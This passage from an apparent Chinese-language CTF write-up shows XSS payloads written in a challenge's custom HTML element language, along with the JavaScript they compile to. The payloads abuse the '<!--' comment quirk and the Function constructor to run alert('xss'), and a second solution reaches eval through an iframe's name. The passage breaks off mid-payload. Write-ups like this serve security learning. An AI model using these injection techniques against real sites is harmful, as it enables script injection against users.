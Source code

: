 ``` html

    <x-const>
        <x-identifier>b</x-identifier>
        <x-lt>
            <x-identifier>a</x-identifier>
            
            <x-not><x-dec>
                <x-identifier>asd</x-identifier>
            </x-dec></x-not>
        </x-lt>        
    </x-const>
    <x-array>
        <x-str>constructor</x-str>
    </x-array>

    <x-const>
        <x-identifier>c</x-identifier>
        <x-call>
            <x-identifier>b</x-identifier>
            <x-str>alert("xss")</x-str>
        </x-call>      
    </x-const>

    <x-call>
        <x-identifier>c</x-identifier>
    </x-call>  
</x-program>
```

會變成：

``` js
const write = (s) => alert(s);
const read = (s) => prompt(s);

const $a$="x"<!--$asd$;
["toString"];
const $b$=$a$<!--$asd$;
["constructor"];
const $c$=($b$)("alert(\"xss\")");
($c$)();
```

terjanq 的[解法](https://gist.github.com/terjanq/1926a1afb420bd98ac7b97031e377436)更短，直接利用 iframe + name 會拿到 window 的特性，去拿 iframe 裡的 eval（那個 if 拿掉也沒差）：

```html
<iframe name=$win$></iframe>
<x-program>
    <x-if>
        <x-num>1</x-num>
        <x-const>
            <x-identifier>test</x-identifier>
        
            <x-lt>
                <x-identifier>win</x-identifier>
                
                <x-not><x-dec>
                    <x-identifier>asd</x-identifier>
                </x-dec></x-not>
            </x-lt>        
        </x-const>
        <x-array>
                <x-str>eval</x-str>
        </x-array>
```